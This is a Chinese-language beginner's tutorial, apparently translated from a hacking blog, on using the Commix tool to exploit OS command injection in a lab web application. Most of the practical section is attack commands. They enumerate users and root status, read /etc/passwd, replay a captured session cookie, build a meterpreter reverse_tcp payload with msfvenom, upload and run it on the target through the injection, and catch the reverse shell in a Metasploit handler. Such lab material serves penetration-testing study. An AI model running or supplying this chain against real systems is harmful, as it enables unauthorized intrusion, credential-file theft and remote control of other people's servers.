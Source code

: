## Commix-Command Injection Exploiter（初学者指南）

### **命令注入简介** [^1]

### **Commix简介** [^2]

### **Commix中的命令注入类型**

- **基于结果的命令注入**
  - 基于经典结果的注入 [^3]
  - 基于Eval的技术 [^4]

- **盲命令注入**
  - 基于时间的技术 [^5]
  - 基于文件的技术 [^6]

### 实验

`commix –h`

`commix -u <URL>` [^7]

`commix -u http://192.168.1.100/commandexec/example.php?/ip=127.0.0.1`

`commix -u <URL> --batch`

`commix -u <URL> --all `[^8]

`commix –u <URL> --current-user` [^9]

`commix –u <URL> --hostname` [^10]

`commix –u <URL> --is-root `[^11]

`commix –u <URL> --sys-info` [^12]

`commix –u <URL> --users` [^13]

`commix –u <URL> --is-admin`

`commix –u <URL> --file-read=/etc/passwd`

### 使用BurpSuite捕获提交的请求的cookie

`commix –u <URL> --cookie="security=low; PHPSESSID=2r9avccki91i3uq2eqlud8sg08" --data="ip=127.0.0.1&Submit=Submit"`

### 使用msfvenom创建恶意软件文件

`msfvenom –p python/meterpreter/reverse_tcp lhost=192.168.1.11 lport=1234 –f raw > venom.py`

### 使用以下命令将其上载到目标中

`commix -u <URL> --cookie="PHPSESSID=4029asg19ejeuibfq30d7lc1o8; security=low" --data="ip=127.0.0.1&Submit=Submit" --file-write="/root/venom.py" --file-dest="/tmp/venom.py" --os-cmd="python /tmp/venom.py"`

```bash
# 您可以使用multi / handler来获取会话，为此使用以下命令集
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set lhost eth0
set lport 1234
run
```

[原文](https://www.hackingarticles.in/commix-command-injection-exploiter-beginners-guide/)

---

[^1]: 命令注入也称为shell注入或OS注入。命令注入是10大OWASP漏洞之一。这是一种攻击，其中主机操作系统的任意命令通过易受攻击的应用程序执行。当Web应用程序将不安全的用户数据发送到系统shell时，可能会发生此类攻击。此用户数据可以是任何形式，例如表单，cookie，HTTP标头等。由于输入验证不充分，漏洞命令注入大多增加。在此攻击中，应用程序的默认功能由攻击者扩展，然后攻击者使用注入代码执行系统命令，这使代码注入与代码注入不同
[^2]: Commix工具是自动化的，用于利用Web应用程序中命令注入的漏洞。这个工具是用python编写的，这意味着它与Linux，windows和mac 兼容。它预装在Kali Linux，BlackArch和Parrot OS中。此工具可以很容易地找到与命令注入相关的漏洞，然后进一步利用它们
[^3]: 这是最常用的命令注入类型，并且是最简单的。在这里，使用了几个常见的操作符，它们将正版命令与注入的命令链接在一起，或者完全排除初始命令，然后继续执行注入的命令。这进一步分为3类，即Shellshock，ICMP exfiltration，DNS exfiltration
[^4]: 在目标Web应用程序易受eval（）函数攻击的情况下使用此技术。该eval函数用于执行在运行时期间在所述函数中定义的特殊代码。
[^5]: 使用此技术将延迟执行注入的命令的时间。通过检查应用程序恢复所花费的时间将使攻击者能够确定命令是否成功执行
[^6]: 如果您无法通过其反应来确定Web应用程序的结果，那么这种技术会派上用场，因为它将允许您编写要在文件中可访问的命令集。攻击者。工作的这种技术类似于基于结果技术
[^7]: 通过URL进行commix会话,使用此命令可以获得一个commix（os_shell）
[^8]: 要获取有关目标的所有基本信息
[^9]: 目标的当前用户
[^10]: 找到主机名
[^11]: 确定外部目标是否有root
[^12]: 获取有关系统的信息
[^13]: 获取有关用户的信息